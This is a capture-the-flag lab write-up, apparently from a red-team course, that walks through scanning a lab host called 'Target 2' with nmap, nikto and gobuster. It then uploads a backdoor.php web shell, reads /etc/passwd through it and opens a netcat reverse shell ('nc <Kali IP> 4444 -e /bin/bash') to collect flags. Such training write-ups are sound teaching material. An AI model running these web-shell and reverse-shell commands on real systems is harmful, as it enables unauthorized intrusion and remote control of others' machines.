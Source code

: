 # Red Team: Summary of Operations for Target 2 machine

## Table of Contents
- Exposed Services
- Enumeratuion with nikto
- Enumeration with gobuster
- Exploitation

### Exposed Services

Nmap scan results for Target 2 machine reveal the below services and OS details:
``` bash
$ nmap -sV 192.168.1.0/24
```
  ![](Images/Target%202%20IP%20address.png)
  ![](Images/Target%202%20exposed%20ports%20and%20services.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
    o	http
    o	rcpbind
    o	netbios-snn (Samba smbd 3.X-4.X)
    o	ssh


Enumeratuion with nikto:
- Enumerating the web server with nikto.
- Command run: nikto -C all -h 192.168.1.115
- This website is running an Apache 2.4.10 web server which is outdated.

  ![](Images/Target%202%20nikto%20enumeration.png)

Enumeration with gobuster:
- Performing a more in-depth enumeration with gobuster
- First installing the tool gobuster using apt.

  ![](Images/Target%202%20gobuster%20install.png)

- Running gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115

  ![](Images/Target%202%20gobuster%20enumeration.png)

- Searched 192.168.1.115 in web browser and found flag 1 in the PATH directory in the exposed index directory of this web server

  ![](Images/Target%202%20flag%201.png)



### Exploitation

- Use the provided script exploit.sh to exploit this vulnerability by opening an Ncat connection to your Kali VM.
- ![](exploit.txt)
- Run the script. It uploads a file called backdoor.php to the target server. This file can be used to execute command injection attacks.

  ![](Images/Target%202%20script%20execute.png)

- Navigate to: http://<Target 2 URL>/backdoor.php?cmd=<CMD>
- This allows you to run bash commands on Target 2.
- For example, try: http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd 

  ![](Images/Target%202%20script%20exploit%20success.png)

- Next, use the backdoor to open a shell session on the target.
- On attacker Kali VM, start a netcat listener: nc -lnvp 4444 
- In the browser, use the backdoor to run: nc <Kali IP> 4444 -e /bin/bash. For example, query string will look like cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash.

  ![](Images/Target%202%20ncat%20listener%20on%20Kali.png)
  ![](Images/Target%202%20ncat%20established%20connection%20on%20target.png)

- Using the shell that was opened on Target 2, find a flag in /var/www.

  ![](Images/Target%202%20flag%202.png)

- Next, finding a flag in the WordPress uploads directory.

  ![](Images/Target%202%20flag%203.png)

- If you find all three flags -- congratulations! There is a fourth, but escalating to root is extremely difficult:


